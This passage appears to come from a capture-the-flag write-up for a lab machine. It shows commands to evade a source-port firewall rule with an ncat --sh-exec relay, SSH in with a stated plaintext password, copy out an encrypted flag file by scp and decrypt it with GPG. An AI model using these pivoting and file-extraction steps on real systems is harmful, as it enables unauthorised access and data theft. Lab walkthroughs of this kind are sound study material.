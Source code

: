 We'll need to SSH in by changing the source port of the TCP socket. To do that we can spawn a ncat listener that redirects to port 987 while changing the source port. Then we just SSH to ourselves on the ncat listening port.

```
root@DNS:~# ncat -l 2222 --sh-exec "ncat 192.168.5.2 987 -p 4444"
```

```
root@DNS:~# ssh -p 2222 dave@127.0.0.1  (password = dav3gerous567)

Last login: Mon Sep  3 16:48:00 2018
dave@vault:~$ id
uid=1001(dave) gid=1001(dave) groups=1001(dave)

vault:~$ ls
root.txt.gpg
```

The only thing interesting is the `root.txt.gpg`

We can download this back to the host OS and decrypt it with the `itscominghome` key we found earlier:

```
root@DNS:/var/www/html# ncat -l 2222 --sh-exec "ncat 192.168.5.2 987 -p 4444"

dave@ubuntu:~$ scp -P 2222 dave@192.168.122.4:~/root.txt.gpg .
dave@192.168.122.4's password: 
root.txt.gpg                                                          100%  629     0.6KB/s   00:00
```

```
dave@ubuntu:~$ gpg -d root.txt.gpg

You need a passphrase to unlock the secret key for
user: "david <dave@david.com>"
4096-bit RSA key, ID D1EB1F03, created 2018-07-24 (main key ID 0FDFBFE4)

gpg: encrypted with 4096-bit RSA key, ID D1EB1F03, created 2018-07-24
      "david <dave@david.com>"
ca468...
```